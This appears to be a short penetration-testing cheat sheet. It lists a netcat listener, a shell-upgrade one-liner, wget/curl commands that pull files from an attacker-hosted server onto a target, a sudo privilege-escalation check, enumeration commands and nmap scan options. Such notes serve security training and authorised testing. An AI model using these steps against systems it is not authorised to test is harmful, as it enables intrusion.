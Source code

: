 # h4x0r-cheatsheet

**Open a port to listen for a connection from a remote host**  
```nc -lvnp <desired port>```

**Convert basic shell into bash**  
```python -c 'import pty; pty.spawn("/bin/bash")'```

**Download files to remote host via shell**  
Local (Attacker): ```python -m SimpleHTTPServer 80```  
Remote (Target): ```wget <your ip>/desired.file``` _**OR**_ ```curl <your IP>/desired.file```

**Check which files the current user can run as root (possible PrivEsc)**  
```sudo -l```

**Display all running processes with owner**  
```ps aux```

**Display all processes listening on ports**  
```netstat -lntup```  
	**Specific application**  
	```netstat -lntup | grep "<appname>"```  
	**Specific port**  
	```netstat -lntup | grep ":<port>"```  
_**OR**_  
```ss -lntu```

**Display all open Internet and network files**  
```lsof -i```

## nmap commands
**Scan for common open ports**  
```nmap <target ip>```

**Scan for ports at ultra high speed**  
```nmap -T5 <target ip>```

**Scan steathily (slower)**  
```nmap -sS <target ip>```

**Scan specific ports for versions and possible vulns**  
```nmap -sC -sV -p <port>(,<port>,...)```

**Scan for OS**  
```nmap -O <target ip>```

**Get more verbose output**  
```nmap -vvv <target ip>```

**Save to file**  
```nmap -oN <filename> <target ip>```

## common ports
| Number | Service | Protocol |
| ------ | ------- | -------- |
| 20,21  | FTP     | TCP      |
| 22     | SSH     | TCP/UDP  |
| 23     | Telnet  | TCP      |
| 25     | SMTP    | TCP      |
| 53     | DNS     | TCP/UDP  |
| 80     | HTTP    | TCP      |
| 110    | POP3    | TCP      |
| 143    | IMAP4   | TCP/UDP  |
| 161,162 | SNMP   | TCP      |
| 443    | HTTPS   | TCP/UDP  |
| 989,990 | SFTP   | TCP      |
| 3389   | RDP     | TCP/UDP  |
